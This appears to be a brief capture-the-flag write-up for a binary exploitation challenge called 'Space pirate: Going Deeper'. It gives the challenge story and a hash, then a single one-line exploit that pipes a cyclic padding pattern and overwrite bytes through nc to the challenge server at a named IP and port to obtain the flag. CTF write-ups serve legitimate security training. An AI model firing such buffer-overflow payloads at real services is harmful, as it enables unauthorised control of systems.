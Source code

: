 # Space pirate: Going Deeper

## CHALLENGE DESCRIPTION
We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?

#### SHA-256

174b95412986b0f97717c8aaa27eecfcae69aa3dd83836bd29ff9656d6a801b8

```

echo -en "1\n$(cyclic 85)\x12\x0B\x40" | nc 94.237.51.112 44559
Run this command you get the flag
```
